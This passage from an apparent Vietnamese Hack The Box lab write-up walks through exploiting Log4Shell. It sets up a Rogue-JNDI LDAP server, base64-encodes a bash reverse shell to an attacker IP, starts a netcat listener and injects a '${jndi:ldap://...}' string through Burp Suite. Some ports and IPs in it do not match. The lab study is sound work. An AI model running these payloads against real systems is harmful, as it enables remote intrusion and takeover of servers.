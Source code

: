 ###### tcp dump  cho phép người dùng xem TCP/IP và các packets được chuyển đi hoặc nhận trong một network.
` sudo tcpdump -i tun0 port 389 `
###### -i: chọn interface (tun0).
##### + Sau khi chạy tcpdump, bấm *Send* trên burpsuite một lần nữa:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/306cee2a-620f-45be-b39a-8002fef2399b)
##### => kết quả tcpdump hiển thị rằng có kết nối đang được nhận trên máy chủ. Chứng tỏ ứng dụng *có lỗ hổng* khi cố gắng kết nối thông qua LDAP port 389.
##### + Cài đặt `Open-JDK` và `Maven` để tạo payload, gửi đến server và chiếm quyền thực thi lệnh từ xa:
```bash
sudo apt update
sudo apt install openjdk-11-jdk -y
java -version
...
sudo apt-get install maven
mvn -v
...
```
###### Open-jDK là kit được sử dụng để build ứng dụng Java. 
###### Maven là một môi trường lập trình (IDE) được sử dụng để tạo project và xử lý thành file `jar`.
##### + Sau khi cài đặt xong, tải và build `Rogue-JNDI`, một ứng dụng khởi động server nội bộ LDAP và cho phép ta nhận kết nối từ server target và thực thi mã độc.
```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```
##### + Sau khi cài đặt, `RogueJndi-1.1.jar` sẽ được tạo trong thư mục `rogue-jndi/target/`. Giờ chúng ta sẽ cấu hình payload trên để pass vào Rouge-jNDI server:
##### + Đàu tiên, cần mã hóa Base64 payload để tránh các vấn đề về encoding:
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.26/4444 0>&1' | base64
```
###### cổng 4444 là tùy chọn, chọn cổng chưa được sử dụng
###### 10.10.14.26: địa chỉ IP của tun0
###### 0>&1: chuyển input tiêu chuẩn(0) đến output tiêu chuẩn (1).
##### => payload : YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjYvNjc4OSAgMD4mMQo=
##### + Sau khi payload được khởi tạo, bắt đầu app Rogue-JNDI và chuyển payload như một phần của flag --command:
``` 
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjYvNjc4OSAgMD4mMQo=}|{base64,- d}|{bash,-i}" --hostname "10.10.14.26"
```
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/03b48c36-fb84-4067-9572-8ed6f30683cb)
##### + Giờ server đã lắng nghe trên port 389, mở một cửa sổ terminal khác và bật Netcat để bắt reverse shell: `nc -lvp 4444`
##### + Quay lại với BurpSuite, thay đổi payload thành `${jndi:ldap://10.10.16.24:1389/o=tomcat}` và gửi Request, quan sát kết quả trên terminal của Server Rogue:
```
```